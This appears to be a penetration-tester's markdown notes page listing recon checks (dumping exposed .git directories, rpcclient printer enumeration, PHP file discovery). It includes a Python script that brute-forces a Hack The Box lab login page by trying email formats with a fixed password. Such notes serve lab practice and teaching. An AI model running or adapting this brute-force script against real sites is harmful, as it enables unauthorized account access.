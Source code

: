 # Assumptions
Things that aren't self explanatory if not encountered before


# Stuff to check for
- /dev 
    - If this DIR is found, assume that there is code in there.    
    Hence use `git-dumper` tool in .git 
- Printers
    - If a windows AD server has a printer, use `rpcclient` and do `enumprinters`
- HTTPS / HTTP sites 
    - If a site has a protocol one shall try to access the site with the other one.
- PHP files
    - If one or more file is found during recon, assume that there are more php files on the site and scan for them.    
    (Use a wordlist such as [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt))
    - Any other files:      Try the method described [here](./web#scan-for-multiple-file-extensions-with-the-same-list) to expose more files.
- If there's a list of people or names with email addresses and see a list of countries listed 
assume that different people might have different email formats (see help and longer explanation below)

## Emails
For example:
```py
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}
```
The following script was written for [Quick](https://app.hackthebox.com/machines/244) HTTB machine.    
```py
# !/usr/bin/python3

import requests

# Constants
URL             = "http://quick.htb:9001/login.php"
EMAIL_FORMATS   = {"UK":".co.uk","US":".com","DE":".de","IT":".it","CN":".cn","FR":".fr"}

# Variables
data = {"email":"","password":"Quick4cc3$$"}
clients = {"qconsulting":"UK","darkwing":"US","wink":"UK","lazycoop":"CN","scoobydoo":"IT","penguincrop":"FR"}
users = ["tim","roy","elisa","james"]


# Return the needed email format
def make_email(user,org_name,country):
    return f"{user}@{org_name}{EMAIL_FORMATS[country]}"

# Brute force the login page
def brute():
    for u in users:
        for cl,cnt in clients.items():
            data["email"] = make_email(u,cl,cnt)
            req = requests.post(url=URL,data=data)
            if "Invalid Credentials" in req.text:
                print(f"[-]\t{data['email']}")
            else:
                print("\nEMAIL FOUND !!\n")
                print(f"[!]\t{data['email']}")
                exit()
# Driver code
if __name__ == "__main__":
    brute()
```
This script can be altered for different sites.